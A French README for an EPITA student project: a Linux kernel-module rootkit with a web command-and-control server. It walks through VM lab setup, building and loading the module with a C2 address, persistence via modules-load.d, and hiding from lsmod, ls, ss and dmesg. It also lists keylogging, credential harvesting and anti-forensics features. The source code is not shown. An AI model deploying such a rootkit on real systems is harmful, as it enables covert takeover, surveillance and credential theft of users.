<p align="center">
  
  
  
  
  
</p>

<h1 align="center">ZeroTrust</h1>
<h3 align="center">Wild Linux Kernel Object Module</h3>

<p align="center">
  <i>Rootkit Linux sous forme de module noyau (LKM) avec interface de commande et contrôle (C2) web.</i>
</p>

<p align="center">
  <b>EPITA - SYS2 - APPING1</b>
</p>

---

> **Avertissement** : Ce projet est réalisé dans un cadre strictement éducatif (projet EPITA SYS2).
> L'utilisation de rootkits en dehors d'un environnement de test contrôlé est illégale.

---

## Table des matières

| # | Section | Description |
|---|---------|-------------|
| 1 | [Présentation du projet](#1---presentation-du-projet) | Vue d'ensemble, architecture, fonctionnalités |
| 2 | [Pré-requis](#2---pre-requis) | Matériel, logiciels, connaissances |
| 3 | [Installation de la virtualisation](#3---installation-de-lenvironnement-de-virtualisation) | QEMU/KVM sur Arch Linux, Ubuntu, Debian |
| 4 | [Création des machines virtuelles](#4---creation-des-machines-virtuelles) | Téléchargement ISO, création VM, installation Debian |
| 5 | [Configuration VM victim](#5---configuration-de-la-vm-victime) | Outils de compilation, headers noyau |
| 6 | [Configuration VM attacker](#6---configuration-de-la-vm-attaquante) | Python, venv, dépendances |
| 7 | [Compilation du rootkit](#7---compilation-du-rootkit) | make, vérification du .ko |
| 8 | [Déploiement du rootkit](#8---deploiement-du-rootkit) | insmod, paramètres, vérification |
| 9 | [Lancement du C2](#9---lancement-du-c2) | Démarrage serveur, connexion rootkit |
| 10 | [Utilisation de l'interface web](#10---utilisation-de-linterface-web) | Login, navigation, chaque panneau |
| 11 | [Fonctionnalités du rootkit](#11---fonctionnalités-du-rootkit) | Hooks, dissimulation, keylogger, protocole |
| 12 | [Fonctionnalités du C2](#12---fonctionnalités-du-c2) | API, WebSocket, architecture |
| 13 | [Architecture technique](#13---architecture-technique) | Structure du code, flux d'exécution |
| 14 | [Chiffrement](#14---sécurité-et-chiffrement) | ChaCha20-Poly1305, dérivation clé, format trames |
| 15 | [Dépannage](#15---depannage) | Problèmes courants et solutions |
| 16 | [Structure du projet](#16---structure-du-projet) | Arborescence, dépendances |

---

## 1 - Présentation du projet

### Qu'est-ce que WLKOM ?

WLKOM est un **rootkit Linux** qui fonctionne comme un **module noyau** (LKM - Loadable Kernel Module). Il s'installe sur une machine cible (la "victime") et permet à un attaquant de la contrôler à distance via une interface web.

### Comment ça marche (en résumé)

```
                          RESEAU LOCAL (NAT libvirt)
                         192.168.122.0/24

  ┌──────────────────────────────────────────────────────────────────┐
  │                                                                  │
  │    VM ATTAQUANTE                       VM VICTIME                │
  │    Debian 12                           Debian 12                 │
  │    192.168.122.167                      192.168.122.146            │
  │                                                                  │
  │   ┌──────────────────┐    TCP chiffré   ┌──────────────────┐    │
  │   │                  │   ChaCha20-Poly1305 │                  │    │
  │   │   Serveur C2     │◄────────────────►│   wlkom.ko       │    │
  │   │   (Python)       │   port 9999      │   (module noyau) │    │
  │   │                  │   port 9998      │                  │    │
  │   │   FastAPI        │                  │   ftrace hooks   │    │
  │   │   + WebSocket    │                  │   keylogger      │    │
  │   │   port 8080      │                  │   persistance    │    │
  │   │                  │                  │                  │    │
  │   └────────┬─────────┘                  └──────────────────┘    │
  │            │                                                     │
  └────────────┼─────────────────────────────────────────────────────┘
               │
               │ HTTP / WebSocket (port 8080)
               │
        ┌──────┴──────┐
        │  Navigateur  │
        │  web (hôte)  │
        │  Firefox /   │
        │  Chromium    │
        └─────────────┘
```

> Les IPs ci-dessus sont des exemples. Vos IPs seront différentes (voir section 4.5 pour les récupérer).

**En 3 étapes simples :**

1. On charge le module `wlkom.ko` dans le noyau de la victime
2. Le rootkit se connecte automatiquement au serveur C2 de l'attaquant
3. L'attaquant contrôle la victime depuis son navigateur web

### Fonctionnalités

| Fonctionnalité | Méthode |
|:---|:---|
| Compilation du module noyau | Makefile + linux-headers |
| Connexion persistante au C2 | TCP auto-reconnect (5s) |
| Persistance au reboot | modules-load.d + modprobe.d |
| Exécution de commandes à distance | call_usermodehelper + stdout/stderr/exit status |
| Authentification par mot de passe chiffré | SHA-256 hash via module_param |
| Upload de fichiers (attaquant → victime) | Protocole UPLOAD: taille + chunks |
| Download de fichiers (victime → attaquant) | Protocole FILE: + chunks + EOF |
| Dissimulation du module (lsmod, /proc, /sys) | list_del() + kobject_del() |
| Dissimulation de lignes dans fichiers (dmesg) | Hook sys_read via ftrace |
| Dissimulation de fichiers/dossiers (ls) | Hook sys_getdents64 via ftrace |
| Dissimulation des connexions réseau (ss/netstat) | Hook sys_recvmsg sur NETLINK_SOCK_DIAG |
| Dissimulation dans /proc/net/tcp | Filtrage hex du port/IP C2 |
| Dissimulation de processus (ps) | Hook getdents64 sur /proc |
| Chiffrement réseau | ChaCha20-Poly1305 AEAD |
| Keylogger | keyboard_notifier + TTY sniffer (SSH inclus) |
| Interface web C2 complète | Dashboard temps réel, 17 panneaux |
| Navigateur de fichiers distant | Browse, view, upload, download, delete |
| Gestionnaire de processus distant | ps + kill depuis l'interface |
| Analyse réseau complète | Connexions, interfaces, routes, ARP, DNS, port scan, capture, topologie |
| Surveillance | Session spy, file monitor, auth logs |
| Credentials & Harvest | Extraction automatisée de secrets, privesc vectors |
| Anti-Forensics | Destruction de preuves, nettoyage d'artefacts |
| Self-Destruct | Suppression complète du rootkit et de ses traces |

---

## 2 - Pré-requis

### Matériel nécessaire

| Composant | Minimum | Recommandé |
|:---|:---|:---|
| RAM | 6 Go | 8 Go ou plus |
| Disque libre | 15 Go | 25 Go |
| CPU | Virtualisation (VT-x / AMD-V) | 4 cœurs |
| Réseau | Non requis (tout est local) | - |

> **Comment vérifier la virtualisation ?**
> ```bash
> # Si cette commande affiche un nombre > 0, votre CPU supporte la virtualisation
> egrep -c '(vmx|svm)' /proc/cpuinfo
> ```

### Logiciels sur la machine hôte

La machine hôte = votre PC physique (le laptop de l'école sous Arch Linux par exemple).

| Logiciel | Rôle | Comment vérifier |
|:---|:---|:---|
| QEMU/KVM | Hyperviseur (exécute les VMs) | `qemu-system-x86_64 --version` |
| libvirt | Gestion des VMs | `virsh --version` |
| virt-manager | Interface graphique pour les VMs | `virt-manager --version` |
| SSH client | Connexion aux VMs | `ssh -V` |
| Navigateur web | Accéder au C2 | Firefox / Chromium |

### Système des VMs

Les deux VMs utilisent **Debian 12 (Bookworm)**.

| | VM victim | VM attacker |
|:---|:---|:---|
| **OS** | Debian 12 | Debian 12 |
| **Noyau** | 6.1.0-49-amd64 | 6.1.0-49-amd64 |
| **Rôle** | Exécute le rootkit | Exécute le C2 |
| **IP** | Attribuée par DHCP (voir section 4.5) | Attribuée par DHCP (voir section 4.5) |
| **Utilisateur** | `victim` / `victim` | `attacker` / `attacker` |
| **Root** | `root` / `root` | `root` / `root` |

> **Pourquoi Debian 12 (Bookworm) et pas une version plus récente ?**
>
> - **Noyau 6.1 LTS** : version Long Term Support maintenue jusqu'en décembre 2026. Le kernel 6.1 est la dernière version LTS compatible avec `ftrace_set_filter_ip()` sans modifications majeures de l'API. Les noyaux plus récents (6.5+) ont modifié certaines structures internes de ftrace (cf. commit `dda4d22`), ce qui compliquerait le code de hooking sans apporter de bénéfice pour un rootkit pédagogique.
> - **Headers noyau stables** : les `linux-headers-6.1.0-*` sont disponibles directement via `apt`, ce qui évite de compiler un noyau custom. Les versions rolling-release (Arch, Fedora) changent de noyau à chaque mise à jour, cassant potentiellement la compilation du module.
> - **API crypto noyau** : le module `chacha20poly1305` (`<crypto/chacha20poly1305.h>`) est présent et fonctionnel dans le 6.1. Certaines distributions plus récentes ont déplacé ou renommé ces headers.
> - **`kallsyms_lookup_name` non exporté depuis Linux 5.7** : on utilise la technique `kprobe` pour résoudre les symboles, qui fonctionne de manière fiable sur le 6.1 (pas de restrictions supplémentaires comme sur le 6.6+ avec `CONFIG_SECURITY_LOCKDOWN`).
> - **Reproductibilité** : Debian 12.0.0 est une version figée (archivée sur `cdimage.debian.org`). N'importe qui peut télécharger exactement le même ISO et obtenir le même environnement, contrairement à une version "current" qui évolue.
> - **Sources** : [Kernel LTS releases](https://www.kernel.org/category/releases.html), [Debian 12 release notes](https://www.debian.org/releases/bookworm/releasenotes)

---

## 3 - Installation de l'environnement de virtualisation

### Option A : Arch Linux (laptop de l'école)

**Étape 1** - Installer les paquets :

```bash
sudo pacman -S qemu-full virt-manager libvirt dnsmasq ebtables
```

**Étape 2** - Activer le service libvirt :

```bash
sudo systemctl enable --now libvirtd
```

**Étape 3** - Ajouter votre utilisateur au groupe libvirt :

```bash
sudo usermod -aG libvirt $(whoami)
```

> **Important** : Déconnectez-vous de votre session et reconnectez-vous pour que le changement prenne effet.

**Étape 4** - Activer le réseau virtuel par défaut :

```bash
sudo virsh net-start default
sudo virsh net-autostart default
```

**Étape 5** - Vérifier :

```bash
virsh list --all
```

> Si cette commande s'exécute sans erreur (même si la liste est vide), tout est bon.

---

### Option B : Ubuntu / Debian

**Étape 1** - Installer les paquets :

```bash
sudo apt update
sudo apt install -y qemu-kvm libvirt-daemon-system virt-manager bridge-utils
```

**Étape 2** - Activer le service :

```bash
sudo systemctl enable --now libvirtd
```

**Étape 3** - Ajouter l'utilisateur au groupe :

```bash
sudo usermod -aG libvirt $(whoami)
```

**Étape 4** - Déconnexion / reconnexion puis vérifier :

```bash
virsh list --all
```

---

### Vérification finale

Si vous voyez un tableau (même vide), l'installation est réussie :

```
 Id   Name   State
-----------------------
```

Si vous avez une erreur du type `Failed to connect to the hypervisor`, vérifiez que libvirtd tourne :

```bash
sudo systemctl status libvirtd
```

---

## 4 - Création des machines virtuelles

### 4.1 - Télécharger l'ISO Debian 12

Lien de téléchargement :

```
https://cdimage.debian.org/cdimage/archive/12.0.0/amd64/iso-cd/
```

Télécharger le fichier `debian-12.0.0-amd64-netinst.iso` (~600 Mo).

```bash
cd ~/Downloads
wget https://cdimage.debian.org/cdimage/archive/12.0.0/amd64/iso-cd/debian-12.0.0-amd64-netinst.iso
```

> C'est le même ISO pour les deux VMs (attaquante et victime). Une seule copie suffit.

Vérifiez que le fichier est bien téléchargé :

```bash
ls -lh ~/Downloads/debian-12*.iso
```


---

### 4.2 - Créer la VM victim

**Étape 1** - Ouvrez virt-manager :

```bash
virt-manager
```


**Étape 2** - Cliquez sur **File → New Virtual Machine** (ou le bouton **"+"** en haut à gauche).


**Étape 3** - Source d'installation :
- Sélectionnez : **"Local install media (ISO image or CDROM)"**
- Cliquez **Forward**


**Étape 4** - Sélectionnez l'ISO :
- Cliquez **Browse** → naviguez vers l'ISO Debian 12 téléchargée
- Le système détecte automatiquement "Debian 12"
- Cliquez **Forward**


**Étape 5** - Mémoire et CPU :
```
Memory : 2048 MiB
CPUs   : 2
```
- Cliquez **Forward**


**Étape 6** - Stockage :
```
Create a disk image for the virtual machine : 10 GiB
```
- Cliquez **Forward**


**Étape 7** - Paramètres finaux :
```
Name : victim
```
- Cochez : **"Customize configuration before install"**
- Network : vérifiez que c'est **"Virtual network 'default' : NAT"**
- Cliquez **Finish**


**Étape 8** - Dans la fenêtre de configuration qui s'ouvre, cliquez **"Begin Installation"** en haut à gauche.


---

### 4.3 - Installer Debian 12 (pour chaque VM)

L'installateur Debian se lance. Sélectionnez **Graphical install** :


Suivez ces étapes une par une :

---

**Langue** — Sélectionnez English (ou Français) :


**Pays** — Sélectionnez **other** → **Europe** → **France** :


**Locale** — Sélectionnez votre locale :


**Clavier** — Sélectionnez votre disposition clavier :


**Nom de la machine** — Entrez `victim` (ou `attacker` pour la 2e VM) :


**Nom de domaine** — Laissez vide :


**Mot de passe root** — Entrez `root` :


**Nom complet de l'utilisateur** — Entrez `Victim User` (ou `Attacker User` pour la 2e VM) :


**Identifiant (login)** — Entrez `victim` (ou `attacker` pour la 2e VM) :


**Mot de passe utilisateur** — Entrez `victim` (ou `attacker` pour la 2e VM) :


**Partitionnement** — Sélectionnez **"Guided - use entire disk"** :


**Schéma de partition** — Sélectionnez **"All files in one partition"** :


Confirmez les changements :


Écrivez les changements sur le disque :


**Miroir Debian** — Sélectionnez votre pays puis `deb.debian.org` :


> **Si ça boucle** (retour à l'écran précédent) : la VM n'a pas accès à internet. Choisissez **"Go Back"** puis **"Continue without a network mirror"**. Vous configurerez le miroir après l'installation (voir ci-dessous).

**Proxy** — Laissez vide :


**Popularity contest** — Sélectionnez **No** :


**Sélection des logiciels** (écran important) :

Vous avez deux options selon votre préférence :

**Option A — Sans interface graphique** (plus léger) :

- **DÉCOCHEZ TOUT** sauf :
  - [x] SSH server
  - [x] standard system utilities
- Avantage : la VM consomme moins de RAM et de disque
- Vous vous connecterez en SSH ou via la console virt-manager

**Option B — Avec interface graphique** (comme sur la capture ci-dessous) :

- Cochez :
  - [x] Debian desktop environment
  - [x] GNOME (ou XFCE pour plus léger)
  - [x] SSH server
  - [x] standard system utilities
- Avantage : vous pouvez utiliser la VM avec un bureau comme un PC normal
- Inconvénient : prend plus de place (~2-3 Go de plus) et de RAM


> **Dans les deux cas**, cochez toujours **SSH server** pour pouvoir vous connecter à distance.

**Installation de GRUB** — Sélectionnez **Yes** :


**Périphérique** — Sélectionnez `/dev/vda` :


**Fin de l'installation** — Cliquez **Continue** pour redémarrer :


Après le redémarrage, vous arrivez sur l'écran de connexion :


**Si vous avez sauté l'étape du miroir** : après le reboot, connectez-vous en root (soit via la console virt-manager, soit en SSH) et exécutez :

```bash
cat > /etc/apt/sources.list << 'EOF'
deb http://deb.debian.org/debian bookworm main
deb http://deb.debian.org/debian bookworm-updates main
deb http://security.debian.org/debian-security bookworm-security main
EOF
apt update
apt install -y openssh-server
```

Cela configure le miroir et installe le serveur SSH.

---

### 4.4 - Créer la VM attacker

Répétez **exactement** les étapes 4.2 et 4.3, avec cette seule différence :

| Paramètre | VM victim | VM attacker |
|:---|:---|:---|
| Nom de la VM | `victim` | `attacker` |
| Hostname | `victim` | `attacker` |
| Mot de passe root | `root` | `root` |
| Login utilisateur | `victim` | `attacker` |
| Mot de passe utilisateur | `victim` | `attacker` |

Tout le reste est identique (2 Go RAM, 2 CPUs, 10 Go disque, Debian 12, même sélection de logiciels).

---

### 4.5 - Récupérer les adresses IP

> **IMPORTANT** : Les adresses IP sont attribuées automatiquement par le serveur DHCP de libvirt.
> **Chaque machine aura des IPs différentes.** Les IPs utilisées dans ce document (`192.168.122.X`) sont des **exemples**.
> Vous **devez** récupérer vos propres IPs et les utiliser à la place.

Une fois les deux VMs démarrées, connectez-vous directement sur la console de chaque VM (via la fenêtre virt-manager, pas en SSH) avec `root` / `root` et exécutez :

```bash
ip -4 addr show
```

Cherchez l'interface réseau qui a une IP en `192.168.122.X` :

Exemple sur la VM victim :


Exemple sur la VM attacker :


> Le nom de l'interface peut varier selon votre configuration : `enp1s0`, `ens3`, `eth0`... Peu importe le nom, c'est l'IP qui compte.

**Notez les deux IPs.** Par exemple :

| VM | IP (exemple) | Votre IP |
|:---|:---|:---|
| Victime | `192.168.122.146` | *à compléter* |
| Attaquante | `192.168.122.167` | *à compléter* |

> **IMPORTANT — Dans toute la suite de ce document**, les IPs `192.168.122.146` (victime) et `192.168.122.167` (attaquante) sont utilisées comme **exemples**.
> **Remplacez-les systématiquement par vos propres IPs** récupérées ci-dessus.

Vous pouvez aussi récupérer les IPs depuis la machine hôte avec :

```bash
# Liste toutes les VMs et leurs IPs attribuées par libvirt
virsh net-dhcp-leases default
```


### 4.6 - Tester la connectivité

Depuis la **machine hôte** (votre PC), remplacez les IPs par les vôtres :

```bash
# Ping la VM victim (remplacez par votre IP)
ping -c 2 <IP_VICTIME>

# Ping la VM attacker (remplacez par votre IP)
ping -c 2 <IP_ATTAQUANTE>
```

Depuis la **VM attacker** :

```bash
# Ping la VM victim (remplacez par votre IP)
ping -c 2 <IP_VICTIME>
```

Ping depuis la machine hôte vers les deux VMs :


Ping depuis la VM attacker vers la VM victim :


> Si les pings fonctionnent (0% packet loss), la connectivité est OK.

> Les 3 commandes doivent réussir. Si le ping échoue, vérifiez que le réseau `default` de libvirt est actif (`sudo virsh net-start default`).

---

## 5 - Configuration de la VM victim

Connectez-vous à la VM victim. Vous avez **deux méthodes** au choix :

---

**Méthode A — Directement sur la console de la VM** (via virt-manager) :

1. Double-cliquez sur la VM `victim` dans virt-manager pour ouvrir sa console
2. Connectez-vous avec `root` / `root`
3. Vous êtes directement en root, pas besoin de `su -`

> Cette méthode fonctionne toujours, même si le réseau n'est pas encore configuré.

---

**Méthode B — En SSH depuis votre machine hôte** :

> **Important** : Par défaut, Debian n'autorise PAS la connexion SSH directe en tant que root.
> Il faut d'abord se connecter avec le compte utilisateur créé pendant l'installation, puis passer root.

```bash
# 1. Se connecter avec l'utilisateur de la VM victim (remplacez l'IP par la vôtre)
ssh victim@192.168.122.146
# Mot de passe : victim

# 2. Une fois connecté, passer root
su -
# Mot de passe : root
```

> Lors de la **première connexion SSH**, le terminal affiche l'empreinte du serveur et demande :
> ```
> Are you sure you want to continue connecting (yes/no/[fingerprint])?
> ```
> Tapez **`yes`** (le mot complet, pas juste `y`) puis appuyez Entrée. C'est normal, SSH enregistre la VM dans vos hôtes connus.

> **Remplacez** `192.168.122.146` par l'IP de votre VM victim (voir section 4.5).



---

> À partir de maintenant, toutes les commandes sont exécutées en **root** dans la VM, quelle que soit la méthode choisie.

### 5.1 - Installer les outils de compilation

```bash
apt update
apt install -y build-essential linux-headers-$(uname -r) gcc make
```



> Faites la même chose sur la VM attacker.

### 5.2 - Vérifier l'installation

```bash
# Vérifier que les headers du noyau sont installés
ls /lib/modules/$(uname -r)/build/Makefile
```

> Si le fichier existe, les headers sont OK.


```bash
# Vérifier le compilateur
gcc --version
# Doit afficher : gcc (Debian 12.2.0-14) 12.2.0 ou similaire

# Vérifier make
make --version
# Doit afficher : GNU Make 4.3 ou similaire

# Vérifier la version du noyau
uname -r
# Doit afficher : 6.1.0-49-amd64 ou similaire
```



### 5.3 - Créer le répertoire de travail

```bash
mkdir -p /root/wlkom/zroot
```


---

## 6 - Configuration de la VM attacker

Connectez-vous à la VM attacker (même choix de méthode que pour victim) :

---

**Méthode A — Console virt-manager** : double-cliquez sur la VM `attacker`, connectez-vous avec `root` / `root`.

---

**Méthode B — SSH depuis l'hôte** :

```bash
# 1. Se connecter avec l'utilisateur de la VM attacker (remplacez l'IP par la vôtre)
ssh attacker@192.168.122.167
# Mot de passe : attacker

# 2. Passer root
su -
# Mot de passe : root
```

> Même chose que pour victim : tapez **`yes`** lors de la première connexion pour accepter l'empreinte.

> **Remplacez** `192.168.122.167` par l'IP de votre VM attacker (voir section 4.5).



---

### 6.1 - Installer Python et les outils

```bash
apt update
apt install -y python3 python3-venv python3-pip sshpass
```



### 6.2 - Créer l'environnement virtuel Python

```bash
python3 -m venv /opt/wlkom-c2
```



### 6.3 - Installer les dépendances Python

```bash
/opt/wlkom-c2/bin/pip install fastapi uvicorn[standard] websockets cryptography
```



### 6.4 - Vérifier l'installation

```bash
/opt/wlkom-c2/bin/python3 -c "
import fastapi, uvicorn, websockets
print('FastAPI   :', fastapi.__version__)
print('Uvicorn   :', uvicorn.__version__)
print('WebSockets:', websockets.__version__)
print('=> Tout est OK')
"
```

Sortie attendue :
```
FastAPI   : 0.138.0
Uvicorn   : 0.49.0
WebSockets: 16.0
=> Tout est OK
```



### 6.5 - Créer l'arborescence

```bash
mkdir -p /opt/wlkom-c2/server
mkdir -p /opt/wlkom-c2/rootkit
```



---

## 7 - Compilation du rootkit

### 7.1 - Copier les sources vers la VM victim

**Méthode A — Via SCP depuis la machine hôte** (si vous utilisez SSH) :

```bash
cd wlkom/

# Copier le code source vers la VM victim (remplacez l'IP par la vôtre)
scp rootkit/wlkom.c victim@192.168.122.146:/tmp/
scp rootkit/Makefile victim@192.168.122.146:/tmp/
# Mot de passe : victim
```



> **Remplacez** `192.168.122.146` par l'IP de votre VM victim (voir section 4.5).

Ensuite, connectez-vous à la VM et déplacez les fichiers en root :

```bash
ssh victim@192.168.122.146
# Mot de passe : victim
su -
# Mot de passe : root
mv /tmp/wlkom.c /root/wlkom/zroot/
mv /tmp/Makefile /root/wlkom/zroot/
```



**Méthode B — Directement sur la console de la VM** (si vous utilisez virt-manager) :

Si vous avez installé l'interface graphique sur la VM, vous pouvez copier les fichiers via un navigateur de fichiers, une clé USB virtuelle, ou simplement créer les fichiers directement sur la VM.

Sinon, le plus simple est d'utiliser `wget` ou `curl` depuis la VM pour récupérer les fichiers depuis un dépôt Git :

```bash
# En root sur la VM victim
apt install -y git
git clone https://github.com/YTX10/ZeroTrust.git /tmp/wlkom-src
cp /tmp/wlkom-src/rootkit/wlkom.c /root/wlkom/zroot/
cp /tmp/wlkom-src/rootkit/Makefile /root/wlkom/zroot/
```

### 7.2 - Compiler

Toujours en root dans la VM victim :

```bash
cd /root/wlkom/zroot
make
```



### 7.3 - Vérifier

```bash
# Le fichier doit exister et peser environ 300-600 Ko
ls -lh /root/wlkom/zroot/wlkom.ko

# Vérifier les infos du module
modinfo /root/wlkom/zroot/wlkom.ko
```




### 7.4 - Nettoyage (optionnel)

Pour supprimer les fichiers intermédiaires :

```bash
make clean
```

> Cela supprime tout sauf `wlkom.c` et `Makefile`. Relancez `make` pour recompiler.

---

## 8 - Déploiement du rootkit

### 8.1 - Choisir un mot de passe

Le rootkit utilise un mot de passe pour l'authentification. Ce mot de passe n'est **pas stocké en clair** dans le module : on passe uniquement son **hash SHA-256**.

Calculez le hash de votre mot de passe :

```bash
echo -n "wlkom2024" | sha256sum | awk '{print $1}'
```

> Remplacez `wlkom2024` par le mot de passe de votre choix.

Le hash ressemble à : `a1b2c3d4e5f6...` (64 caractères hexadécimaux).

### 8.2 - Charger le module crypto

Le rootkit utilise ChaCha20-Poly1305 pour le chiffrement. Il faut d'abord charger le module crypto dans le noyau :

```bash
modprobe libchacha20poly1305
```

> Sans cette étape, `insmod` échouera avec l'erreur `Unknown symbol chacha20poly1305_encrypt`.

### 8.3 - Charger le rootkit

Sur la **VM victim** :

```bash
insmod /root/wlkom/zroot/wlkom.ko \
  pw_hash="$(echo -n 'wlkom2024' | sha256sum | awk '{print $1}')" \
  c2_ip="192.168.122.167" \
  c2_port=9999
```

**Explication des paramètres :**

| Paramètre | Description | Exemple |
|:---|:---|:---|
| `pw_hash` | Hash SHA-256 du mot de passe | `$(echo -n 'wlkom2024' \| sha256sum \| awk '{print $1}')` |
| `c2_ip` | IP de la VM attacker | `192.168.122.167` |
| `c2_port` | Port d'écoute du C2 | `9999` |

> **Remplacez** `192.168.122.167` par l'IP réelle de votre VM attacker (voir section 4.5) !



### 8.4 - Vérifier le chargement

```bash
dmesg | tail -10
```

**Sortie attendue** (visible uniquement juste après le chargement) :

```
[xxx.xxx] wlkom: module loaded
[xxx.xxx] wlkom: persistance set
[xxx.xxx] wlkom: module hidden
[xxx.xxx] wlkom: hide files active (ftrace)
[xxx.xxx] wlkom: hide lines active (ftrace)
[xxx.xxx] wlkom: crypto ready (chacha20-poly1305)
[xxx.xxx] wlkom: net hiding ready (port=270F ip=...)
[xxx.xxx] wlkom: ss hiding active (recvmsg hook)
[xxx.xxx] wlkom: keylogger started
[xxx.xxx] wlkom: C2 thread started
```

> **Attention** : une fois actif, le rootkit filtre `dmesg` et ces lignes disparaissent ! C'est normal — le hook `sys_read` masque toutes les lignes contenant "wlkom".



### 8.5 - Vérifier la dissimulation

Après quelques secondes, le rootkit se cache complètement :

```bash
# Module invisible dans lsmod
lsmod | grep wlkom
# (aucun résultat = OK)

# Module invisible dans /proc/modules
cat /proc/modules | grep wlkom
# (aucun résultat = OK)

# Module invisible dans /sys/module
ls /sys/module/ | grep wlkom
# (aucun résultat = OK)

# Fichiers du rootkit cachés dans ls
ls /root/wlkom/
# (dossier semble vide = OK)

# Connexion cachée dans ss
ss -tnp | grep 9999
# (aucun résultat = OK)
```



### 8.6 - Persistance au reboot

Le rootkit configure **automatiquement** sa persistance lors du premier chargement. Voici ce qu'il fait :

```
1. Copie wlkom.ko → /lib/modules/$(uname -r)/extra/zroot.ko
2. Crée /etc/modules-load.d/zroot.conf    (chargement auto au boot)
3. Crée /etc/modprobe.d/zroot.conf         (paramètres : hash, IP, port)
4. Exécute depmod -a                       (met à jour la base des modules)
```

Après un reboot de la VM victim, le rootkit se charge automatiquement et se reconnecte au C2.

> **Nom "zroot"** : le module est copié sous le nom `zroot.ko` pour la discrétion (pas de référence à "wlkom" dans les fichiers de config).

---

## 9 - Lancement du C2

### 9.1 - Copier le C2 sur la VM attacker

**Méthode A — Via SCP depuis la machine hôte** :

```bash
cd wlkom/

# Copier les fichiers vers la VM attacker (remplacez l'IP par la vôtre)
scp attacking_program/c2.py attacker@192.168.122.167:/tmp/
scp rootkit/wlkom.c attacker@192.168.122.167:/tmp/
# Mot de passe : attacker
```

> **Remplacez** `192.168.122.167` par l'IP de votre VM attacker (voir section 4.5).



Connectez-vous et déplacez les fichiers en root :

```bash
ssh attacker@192.168.122.167
# Mot de passe : attacker
su -
# Mot de passe : root
mv /tmp/c2.py /opt/wlkom-c2/server/c2.py
mv /tmp/wlkom.c /opt/wlkom-c2/rootkit/wlkom.c
```



**Méthode B — Via Git directement sur la VM** :

```bash
# En root sur la VM attacker
apt install -y git
git clone https://github.com/YTX10/ZeroTrust.git /tmp/wlkom-src
cp /tmp/wlkom-src/attacking_program/c2.py /opt/wlkom-c2/server/c2.py
cp /tmp/wlkom-src/rootkit/wlkom.c /opt/wlkom-c2/rootkit/wlkom.c
```

### 9.2 - Démarrer le serveur C2

Toujours en root dans la **VM attacker** :

**Option A** - Lancement au premier plan (voir les logs en direct) :

```bash
/opt/wlkom-c2/bin/python3 /opt/wlkom-c2/server/c2.py
```

**Option B** - Lancement en arrière-plan (le serveur continue même si vous fermez le terminal) :

```bash
nohup /opt/wlkom-c2/bin/python3 /opt/wlkom-c2/server/c2.py > /tmp/c2.log 2>&1 &
```

Pour consulter les logs :

```bash
cat /tmp/c2.log
```

### 9.3 - Connexion automatique du rootkit

Si le rootkit est déjà chargé sur la VM victim, il se connecte **automatiquement** en moins de 5 secondes.

Vous verrez dans les logs du C2 :

```
INFO:     Started server process [XXXX]
INFO:     Waiting for application startup.
[C2] Crypto key derived (ChaCha20-Poly1305)
INFO:     Application startup complete.
[C2] Rootkit listener on port 9999
INFO:     Uvicorn running on http://0.0.0.0:8080 (Press CTRL+C to quit)
[C2] Command listener on port 9998
[C2] Rootkit connected from ('192.168.122.146', XXXXX)
```



### 9.4 - Accéder à l'interface web

L'interface web du C2 est accessible depuis n'importe quel navigateur qui peut joindre la VM attacker. Deux options :

---

**Option A — Depuis la machine hôte** (votre PC physique) :

Ouvrez Firefox ou Chromium sur votre machine hôte et allez à :

```
http://<IP_ATTAQUANTE>:8080
```

Par exemple : `http://192.168.122.167:8080` (**remplacez par votre IP**, voir section 4.5).

> C'est la méthode la plus confortable : vous profitez de votre écran, clavier et souris habituels.



---

**Option B — Directement sur la VM attacker** (si elle a une interface graphique) :

Si vous avez installé un environnement de bureau (XFCE, GNOME) sur la VM attacker (voir section 4.3, Option B), vous pouvez ouvrir un navigateur directement dessus :

1. Ouvrez la console de la VM `attacker` dans virt-manager
2. Lancez le navigateur (Firefox est installé par défaut avec XFCE/GNOME)
3. Allez à :

```
http://localhost:8080
```

> Ici pas besoin de connaître l'IP : le C2 tourne sur la même machine, donc `localhost` suffit.

---

> **Les deux méthodes donnent exactement la même interface.** Choisissez celle qui vous convient le mieux.

---

## 10 - Utilisation de l'interface web

L'interface web du C2 comporte **17 panneaux** organisés en **6 catégories** dans le menu latéral. Voici le détail complet de chaque panneau et de chaque fonctionnalité.

### 10.1 - Authentification (deux niveaux)

L'interface a **deux niveaux de sécurité** :

---

**Niveau 1 : Mot de passe de la plateforme web**

| | |
|:---|:---|
| Quand | À l'ouverture de la page web |
| Mot de passe | `zerotrust` (modifiable dans Settings) |
| Tentatives | 3 avant verrouillage de 30 secondes |
| Session | Dure 1 heure, renouvelée à chaque action |

Entrez `zerotrust` et cliquez **Login**.



---

**Niveau 2 : Mot de passe du rootkit**

| | |
|:---|:---|
| Quand | Après le login, dans le Terminal |
| Mot de passe | Celui choisi au chargement (`wlkom2024` dans cet exemple) |
| Affichage | Le terminal affiche `Password:` |

Après le login, la majorité des panneaux affichent **"Authentication Required"** avec un bouton **"Go to Terminal"**. Allez dans **Terminal** (menu à gauche), le prompt affiche :

```
[*] Rootkit connected - password required
Password: _
```

Tapez le mot de passe du rootkit (ex: `wlkom2024`) et appuyez Entrée.

```
[+] Authenticated successfully
root@victim:/# _
```

> Vous êtes maintenant connecté avec un **accès root complet** à la machine victime. Tous les panneaux sont déverrouillés.

**Authentification dans le Terminal :**



**Panneaux verrouillés avant authentification (gate) :**



---

### 10.2 - Vue d'ensemble de l'interface

L'interface se compose de :

| Élément | Description |
|:---|:---|
| **Barre latérale (sidebar)** | Menu de navigation avec les 17 panneaux organisés en 6 catégories |
| **Barre supérieure (topbar)** | Statut de connexion (`root@victim`), IP, uptime, recherche `Ctrl+K`, statut `RK AUTH`, bouton Logout |
| **Zone principale** | Contenu du panneau sélectionné |
| **Barre de statut (statusbar)** | WebSocket status, chiffrement actif (ChaCha20-Poly1305), version (v5.0), statut rootkit, nombre d'événements |

**Catégories du menu latéral :**

| Catégorie | Panneaux |
|:---|:---|
| **Operations** | Dashboard, RTR Terminal, File System |
| **Monitoring** | Processes, Network |
| **Intelligence** | Keylogger, Credentials, Surveillance, VM Detection |
| **Offensive** | Port Forward |
| **System** | Stealth Audit, Persistence, Anti-Forensics, Modules, Activity Log, Self-Destruct |
| **Admin** | Settings |



---

### 10.3 - Operations

#### Dashboard

Vue d'ensemble complète du système compromis.

| Section | Description |
|:---|:---|
| **Connection** | Statut de connexion, hostname, IP |
| **Stealth Score** | Score de dissimulation sous forme de jauge circulaire (ex: 8/12 checks) |
